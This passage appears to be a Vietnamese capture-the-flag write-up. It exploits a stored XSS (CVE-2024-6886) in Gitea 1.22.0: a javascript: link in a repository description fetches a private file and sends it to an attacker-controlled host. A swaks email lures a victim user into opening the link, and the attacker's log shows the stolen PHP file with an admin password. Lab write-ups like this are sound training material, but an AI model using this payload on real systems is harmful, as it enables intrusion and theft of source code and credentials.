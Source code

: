 Và mình đã truy cập được `Gitea`

Check version ở footer: `1.22.0`, mình có thể sử dụng CVE-2024-6886

Chúng ta sẽ sử dụng user `axel` với mật khẩu ở trên để login

## 3. Exploit

Tạo một repo mới với description (payload) như sau:

```jsx
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.14.17:8081/?ily=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">XSS Test</a>
```

Tiếp tục tạo một file trống trong repo

![image.png](imgs/image%207.png)

Gửi email qua smtp cùng `swaks`

```bash
$ swaks --to "jobert@localhost" --from "axel@localhost" --header "Subject: meow" --body "http://localhost:3000/axel/xss" --server localhost --port 2525 --timeout 30s
```

Và sau một lúc, chúng ta sẽ lấy được nội dung của file `index.php`

```bash
10.10.11.53 - - [10/Feb/2025 14:19:48] "GET /?ily=%3C%3Fphp%0A%24valid_username%20%3D%20%27admin%27%3B%0A%24valid_password%20%3D%20%27IKw75eR0MR7CMIxhH0%27%3B%0A%0Aif%20(!isset(%24_SERVER%5B%27PHP_AUTH_USER%27%5D)%20%7C%7C%20!isset(%24_SERVER%5B%27PHP_AUTH_PW%27%5D)%20%7C%7C%20%0A%20%20%20%20%24_SERVER%5B%27PHP_AUTH_USER%27%5D%20!%3D%20%24valid_username%20%7C%7C%20%24_SERVER%5B%27PHP_AUTH_PW%27%5D%20!%3D%20%24valid_password)%20%7B%0A%20%20%20%20%0A%20%20%20%20header(%27WWW-Authenticate%3A%20Basic%20realm%3D%22Employee%20Management%22%27)%3B%0A%20%20%20%20header(%27HTTP%2F1.0%20401%20Unauthorized%27)%3B%0A%20%20%20%20exit%3B%0A%7D%0A%0Aheader(%27Location%3A%20dashboard.php%27)%3B%0Aexit%3B%0A%3F%3E%0A%0A HTTP/1.1" 200 -
```
